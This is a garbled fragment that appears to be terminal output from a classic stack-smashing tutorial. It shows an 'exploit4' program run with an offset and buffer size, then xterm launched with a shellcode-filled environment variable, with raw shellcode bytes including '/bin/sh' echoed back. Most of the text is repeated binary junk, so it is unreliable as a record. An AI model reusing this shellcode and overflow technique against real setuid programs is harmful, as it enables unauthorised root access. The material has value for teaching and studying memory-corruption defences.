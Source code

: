 






	���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���








	H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H���H��








	�H���H���H���H���H���H���H���H���H���H���H���H��
	Warning: some arguments in previous message were lost
	Illegal instruction
	[aleph1]$ exit
	.
	.
	.
	[aleph1]$ ./exploit4 2148 600
	Using address: 0xbffffb54
	[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
	Warning: Color name "�^1�FF
                           �
                            �V

	�1��@������/bin/sh���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T�








	��T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T








	���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���

